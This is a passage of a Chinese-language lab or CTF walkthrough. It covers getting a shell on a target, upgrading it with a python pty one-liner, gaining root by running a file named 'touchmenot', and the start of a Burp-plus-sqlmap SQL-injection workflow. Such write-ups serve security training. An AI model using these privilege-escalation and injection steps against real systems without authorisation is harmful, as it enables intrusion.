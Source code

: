 ![image-20220318151816282](https://gitee.com/xxb667/img/raw/master/img/image-20220318151816282.png)





# 4.提权

## 4.1 获取shell

```
shell
```

![image-20220318114404810](https://gitee.com/xxb667/img/raw/master/img/image-20220318114404810.png)

## 4.2 切换终端

获取shell后，切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20220318114528077](https://gitee.com/xxb667/img/raw/master/img/image-20220318114528077.png)

## 4.3 获得root权限

在home/legacy路径下发现一个文件**touchmenot**

```
cd /home/legacy
```

运行这个文件

```
./touchmenot
```

运行后发现直接获得了root权限

![image-20220318115039486](https://gitee.com/xxb667/img/raw/master/img/image-20220318115039486.png)

# 5.sqlmap应用

## 5.1 获得post文件

- 用burp对网站数据进行抓包
- 获得post文件
- 并把文件中的内容复制，粘贴到一个txt文件里面
- 然后把这个文件复制到kali中
- 并在文件的路径下打开终端运行sqlmap
